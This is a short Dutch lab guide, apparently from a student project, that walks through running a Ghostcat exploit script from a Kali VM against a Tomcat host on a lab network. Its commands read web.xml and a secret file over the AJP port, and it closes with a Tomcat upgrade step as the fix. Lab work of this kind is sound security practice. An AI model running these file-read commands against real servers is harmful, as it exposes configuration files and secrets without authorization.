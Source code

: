 # 4) Starten van de aanval

## 1) Stappen om de aanval succesvol uit te voeren (Kali VM)

- open terminal in kali vm
- voer volgende commando's uit:
- 4.1) sudo cp /media/sf_kali/exploit_ghostcat.py ~/Desktop/
- 4.2) cd Desktop
- 4.3) sudo chmod +x exploit_ghostcat.py
- 4.4) nmap 10.10.10.4 -p 8009
- 4.5) python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/web.xml read
- 4.6) python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/secret.txt read

# 5) Voorkomen van de kwetsbaarheid

- open terminal in ubuntu vm
- voer volgende commando's uit:
- 5.1) sudo apt update && sudo apt upgrade tomcat9
